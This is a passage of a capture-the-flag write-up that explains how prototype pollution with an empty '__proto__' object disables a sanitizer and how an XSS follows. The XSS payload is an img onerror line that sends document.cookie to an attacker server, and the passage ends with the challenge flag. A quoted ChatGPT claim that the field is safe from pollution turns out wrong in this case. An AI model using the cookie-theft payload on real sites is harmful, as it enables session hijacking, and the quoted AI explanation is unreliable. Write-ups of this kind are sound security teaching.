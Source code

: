 Yep, it works! I tried a few variations to disable the sanitizer but didn't get there.

I check with ChatGPT 🤓
>The # before sanitize signifies that sanitize is a private class field, a feature introduced in JavaScript with the ECMAScript 2019 (ES10) specification. Private class fields are denoted by the # symbol followed by the field name, and they are only accessible within the class in which they are defined

>private class fields are not accessible outside the class where they are defined. They are not part of the prototype chain and cannot be modified or accessed from external code. This means that the `#sanitize` field in the `Debug` class is not susceptible to prototype pollution.

OK, I guess I can't change it? 🤔 But.. if `debug.sanitize` is always true, why did the challenge dev add an if statement here at all? Guess I'll have to check smarter peoples writeups 😁

edit: After speaking with the challenge creator and playing around with the challenge again, it turns out any form of prototype pollution is enough, e.g. sending an empty object will work just fine. Presumably this overwrites the existing object, making `sanitize` undefined so that the if condition doesn't trigger 🤷‍♂️
```js
res.end('{"__proto__": {}}');
```

### Part 3: XSS
You can probably find many payloads to extract the flag, but I went with this one.
```js
<img src=x onerror=document.location='http://ATTACKER_SERVER/?'+document.cookie;>
```

Upon loading, the page will try to display the image `x`. Since that's not a valid `img src`, it will trigger an error and execute some JS to redirect the victim to the attacker server (us) with their cookie attached as a GET parameter.

If we submit the report to the admin and check our `ngrok` output (make sure to do this on the web UI), we'll find our flag 🔥
```txt
amateursCTF{s@nit1zer_ap1_pr3tty_go0d_but_not_p3rf3ct}
```

Side note: I actually forgot to submit the flag, so our team did not solve the challenge 🙃
